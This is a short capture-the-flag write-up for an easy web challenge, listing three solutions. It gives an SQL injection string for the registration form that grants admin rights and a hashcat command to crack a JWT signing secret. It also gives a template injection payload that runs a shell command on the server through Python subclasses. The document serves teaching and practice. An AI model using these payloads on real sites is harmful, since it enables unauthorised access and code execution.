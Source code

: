 # Very Vulnerable Site

Author: reyes

> So I think this site is pretty unbreakable. The flag seems to be impossible to obtain to me, but apparently there are multiple possible ways to get the flag? Maybe I'm just dumb...

**Difficulty: Easy**

## Solution

> Choose from 3 ways of solving:

- Register SQLi:  
    `[USERNAME OF CHOICE]', '[PASSWORD HASH OF CHOICE]', 1); -- `

- Crack JWT: Register normally, signin normally, copy JWT from cookie, then  
    `./hashcat -a 0 -m 16500 hash.txt rockyou.txt`  
    Secret is "secret", edit on https://jwt.io/, paste back into cookie, reload /admin.

- SSTI while creating username: 
    `{{"".__class__.__mro__[1].__subclasses__()[468](["type/cat", "flag.txt"],shell=True,stdout=-1).communicate()}}`  
    Many other payloads would work too.
